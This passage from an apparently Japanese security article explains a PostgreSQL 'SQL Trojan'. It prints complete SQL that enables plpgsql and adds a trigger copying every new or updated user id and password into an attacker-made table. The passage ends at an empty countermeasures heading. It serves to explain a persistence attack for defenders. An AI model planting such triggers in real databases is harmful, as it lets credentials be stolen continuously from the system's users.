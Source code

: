 　例えばこのテーブルの中身は次のようになっている。

```
hoge=\# select * from tuser;
    id    | password
----------+----------
 Kanatoko | hogefuga
```


### 0x03 攻撃の例

　攻撃者はこのデータベースに対し、SQLインジェクションなどを用いて次の一連
のSQL文を実行する。

```
create language plpgsql;

create table p0wn1ch1w4(
id text,
password text
);

create function foo() returns trigger as '
begin
  insert into p0wn1ch1w4 values( NEW.id, NEW.password );
  return new;
end;
' language 'plpgsql';

create trigger tg_foo before insert or update or delete on tuser
  for each row
  execute procedure foo();
```

　まずcreate language文でこのデータベースでストアドプロシージャが作成でき
るようにする。続いてcreate table文で盗んだデータを格納するためのテーブル
を作成する（ポウンニチワ!）。

　create function文によってfooという関数が作られる。この関数はtuserテーブ
ルにトリガーとして組み込まれることになる。NEW.idとNEW.passwordはtuserが更
新される際の新しいレコードの各フィールドを表すもので、つまりtuserが更新さ
れるたびに新しいデータ（変更、あるいは追加されるもの）がポウンニチワテーブルにinse
rtされるのだ。

　最後のcreate trigger文によってこの悪意あるコードがトリガーとしてtuserテーブ
ルに組み込まれることになり、SQL Trojanの感染が完了する。

　攻撃者は一度侵入したデータベースにこのようなSQL Trojanを感染させておく
ことで、継続的にデータを盗み出すことが可能となる。この例では盗んだデータ
を取り出すためにはポウニチワテーブルにアクセスする必要があるが、実際のケースではファイルへ
の書き出しや名前解決などを利用したネットワーク経由での窃取が使用される可能性が
あるだろう。


### 0x04 対策
